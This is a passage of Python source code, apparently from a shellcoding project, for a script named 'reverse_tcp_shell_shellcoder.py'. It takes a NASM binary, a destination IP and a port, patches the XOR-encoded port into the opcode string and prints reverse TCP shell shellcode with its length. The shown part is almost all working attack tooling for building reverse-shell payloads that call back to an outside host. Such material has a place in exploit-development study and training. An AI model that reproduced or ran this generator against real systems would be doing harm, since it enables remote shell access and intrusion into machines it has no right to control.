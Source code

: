 ````
    port_hex = hex(int(dest_port))
    port_xor_result = xorBinToHex(port_hex,port_xor_key)
    hex_bin_code = getHexBinCode(port_xor_result, hex_bin_code, port_pattern_to_search)   
    #Get final shellcode
    opcodes_key = ["\\x" + hex_bin_code[i:i+2] for i in range(0, len(hex_bin_code), 2)]
    print("Shellcode: " + ''.join(opcodes_key))
    print("------------------------------------------")
    print("Shellcode length: " + str(len(opcodes_key)))


def printError(error):
    #Handles error messages
    message = ""
    if error == 1:
        message = "An error occured while executing the program. Please, ensure you are invoking this program using the following syntax: ./reverse_tcp_shell_launcher.py BIN_OF_NASM DST_IP DST_PORT"
    elif error == 2:
        message = "Incorrect port number. Please specify a port number of 4 digits."
    elif error == 3:
        message = "Incorrect IP. Please specify a valid IP address."
    print(message)

def xorBinToHex(a,b):
    #Converts two hex strings to binary
    #and returns the XORed result of them in hex format
    binary_a = bin(int(a,16))[2:]
    binary_b = bin(int(b,16))[2:]
    xored_hex = format(int(binary_a,2) ^ int(binary_b,2),'02x')
    return xored_hex

def main():
    try:
        bin_name = sys.argv[1]
        dest_ip = sys.argv[2]
        dest_port = sys.argv[3]
        try:
            socket.inet_aton(dest_ip)
            if len(sys.argv[3]) ==  4 and sys.argv[3].isdigit():
                getShellcode(bin_name,dest_ip,dest_port)
            else:
                printError(2)
        except:
            printError(3)
    except:
        printError(1)

if __name__ == '__main__':
    main()
````
``reverse_tcp_shell_shellcoder.py``
